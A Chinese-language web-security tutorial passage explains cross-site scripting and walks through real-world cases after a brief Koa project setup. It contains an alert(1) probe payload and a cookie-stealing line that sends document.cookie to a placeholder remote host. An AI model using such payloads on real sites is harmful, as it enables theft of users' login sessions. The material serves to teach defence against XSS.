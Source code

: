 - koa
    - koa-static 静态文件中间件
    - koa-bodyparser 解析 body
    - koa-pug 模板，使用缩进定义 html 层级结构
    - koa-router 路由
- jspm 管理前端静态依赖
    - jspm i
- npm i 后端依赖

# 二、XSS 攻击

> Cross Site Scripting 跨站脚本攻击，区别于 CSS ，将 Cross 缩写为 X。

白话理解：只运行本站内的东西才安全，如果运行了其他站的东西，就是跨站脚本攻击。用户写入的内容被当做程序来执行，出现了攻击。

## 2.1 引入

案例描述：
- 从 query 中获取数据，然后直接插入到模板 views 中，如果在 query 中插入 JS 脚本，而后端不处理，则会执行脚本实现跨站脚本攻击。

尝试攻击：
- 使用 alert 试探是否存在 XSS 漏洞，<script>alert(1);</script>

攻击原理：
- 程序+数据=结果，当数据中包含一部分程序的时候，原本的程序逻辑被改变，完成攻击。

可做操作：
- 获取页面数据
- 获取 Cookies
- 劫持前端逻辑
- 发送请求（到被攻击者服务器、图片跨站提交数据到攻击者服务器）
- ...

最终危害：
- 偷取网站任意数据
- 偷取用户任意资料
- 偷取用户密码和登录态
- 欺骗用户
- ...

## 2.2 真实案例

- 站酷搜索
    - 搜索关键词到结果页时会被显示出来
    - 攻击时引用远程 JS 脚本，脚本执行创建图片然后 img.src 中上报 cookies 给一个远程 PHP 脚本，盗取了登录态（直接发送脚本，点击后也能盗取）
        - img.src = 'http://xx.com/joke.php?joke=' + encodeURIComponent(document.cookie);
- QQ 空间日志
    - 富文本，本质上是 htm'l，可以提交任何内容，已做的过滤靠白名单不彻底，把 </script> 反斜杠去掉，用于合并标签
    - 攻击时，富文本插入脚本并主动提供一个闭合 </script>，执行脚本
- XXX 商城
    - 提交订单信息，到管理者的界面上审核
    - 攻击时，提交脚本到管理者界面执行，可以拿到管理者的登录态和后台地址(http-referer)
